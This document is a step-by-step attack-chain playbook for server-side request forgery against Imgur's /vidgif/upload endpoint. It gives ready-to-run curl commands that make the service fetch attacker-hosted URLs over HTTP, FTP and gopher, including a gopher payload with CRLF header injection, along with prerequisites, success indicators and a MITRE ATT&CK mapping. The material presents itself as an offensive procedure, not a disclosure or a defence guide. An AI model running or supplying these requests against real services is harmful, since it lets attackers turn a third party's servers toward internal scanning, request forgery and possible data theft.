

# SSRF Exploitation in Imgur VidGIF Upload Endpoint

Multi-stage attack chain demonstrating SSRF in Imgur's /vidgif/upload endpoint, allowing arbitrary URL processing without validation, leading to server-initiated connections to attacker-controlled resources.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[commands/imgur-vidgif-ssrf-post]]

### Target Environment

- Imgur web platform
- Accessible /vidgif/upload endpoint
- Attacker-controlled server for hosting malicious resources

### Initial Access Requirements

- Public access to Imgur's web services
- No authentication required
- Network access to set up listener on attacker server

## Detailed Attack Procedures

### Step 1: Identify VidGIF Upload Endpoint
procedure: [[procedures/Exploit-SSRF-in-Imgur-VidGIF-Upload]]

**Objective**: Locate the vulnerable endpoint for video to GIF conversion that accepts arbitrary URLs.

**Instructions**: Review Imgur's frontend to identify the /vidgif/upload POST endpoint used for processing video URLs into GIFs. This endpoint handles 'source' and 'url' parameters without protocol or host validation.

**Expected Output**: Confirmation of endpoint functionality via legitimate video URL test.

**Success Indicators**:
- Endpoint responds to POST requests
- Legitimate video processing succeeds

### Step 2: Craft Malicious POST Request
procedure: [[procedures/Exploit-SSRF-in-Imgur-VidGIF-Upload]]

**Objective**: Prepare a request with attacker-controlled URLs in 'source' and 'url' parameters to trigger SSRF.

**Instructions**: Use [[commands/imgur-vidgif-ssrf-post]] to send a POST request with encoded arbitrary URLs, such as http://192.168.218.53/malicious123.php, along with start/stop times for the GIF extraction.

```bash
curl -X POST https://imgur.com/vidgif/upload -d "source=http%3A%2F%2F192.168.218.53%2Fmalicious123.php&url=http%3A%2F%2F192.168.218.53%2Fmalicious123.php&start=56.72&stop=66.43" -H "Content-Type: application/x-www-form-urlencoded"
```

**Expected Output**: Server accepts the request and begins processing the URLs.

**Success Indicators**:
- HTTP 200 or processing response from Imgur
- No immediate error on URL format

### Step 3: Trigger HTTP SSRF
procedure: [[procedures/Exploit-SSRF-in-Imgur-VidGIF-Upload]]

**Objective**: Force the server to make an HTTP GET request to the attacker's internal or external resource.

**Instructions**: Monitor attacker server logs after sending the request from Step 2. The server will initiate a GET to the provided URL using ffmpeg for video fetching.

**Expected Output**: Incoming HTTP GET request on attacker server, e.g., GET /malicious123.php from Imgur's IP.

**Success Indicators**:
- Attacker server logs show connection from Imgur
- Potential exfiltration if resource serves data

### Step 4: Trigger FTP SSRF
procedure: [[procedures/Exploit-SSRF-in-Imgur-VidGIF-Upload]]

**Objective**: Demonstrate SSRF by connecting to an FTP server controlled by the attacker.

**Instructions**: Modify the URL in [[commands/imgur-vidgif-ssrf-post]] to use ftp://attacker-ip:21/path and resend the request. Set up an FTP listener on the attacker side.

```bash
curl -X POST https://imgur.com/vidgif/upload -d "source=ftp%3A%2F%2F192.168.218.53%2Fmalicious&url=ftp%3A%2F%2F192.168.218.53%2Fmalicious&start=56.72&stop=66.43" -H "Content-Type: application/x-www-form-urlencoded"
```

**Expected Output**: FTP connection attempt from Imgur server to attacker FTP service.

**Success Indicators**:
- FTP logs show connection and potential file access
- No local file read due to ffmpeg mitigations

### Step 5: Trigger Gopher SSRF with Header Injection
procedure: [[procedures/Exploit-SSRF-in-Imgur-VidGIF-Upload]]

**Objective**: Exploit gopher protocol for potential newline injection to manipulate requests or headers.

**Instructions**: Update the URL to gopher://attacker-ip:11338/0%0d%0aHeader: Injected%0d%0a%0d%0a and execute [[commands/imgur-vidgif-ssrf-post]]. This builds on prior reports for request smuggling-like effects.

```bash
curl -X POST https://imgur.com/vidgif/upload -d "source=gopher%3A%2F%2F192.168.218.53%3A11338%2F0%250d%250aX-Forwarded-For%3A%20injected%250d%250a%250d%250a&url=gopher%3A%2F%2F192.168.218.53%3A11338%2F0%250d%250aX-Forwarded-For%3A%20injected%250d%250a%250d%250a&start=56.72&stop=66.43" -H "Content-Type: application/x-www-form-urlencoded"
```

**Expected Output**: Gopher connection with injected payload processed by server.

**Success Indicators**:
- Logs show gopher protocol handling
- Potential header manipulation effects observable in responses

## Attack Chain Summary

### Key Achievements

1. Forced Imgur server to connect to arbitrary HTTP endpoints, enabling potential internal network scanning.
2. Demonstrated FTP protocol support, allowing file server interactions.
3. Exploited gopher for newline injections, risking further request forgery despite ffmpeg updates mitigating local reads.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
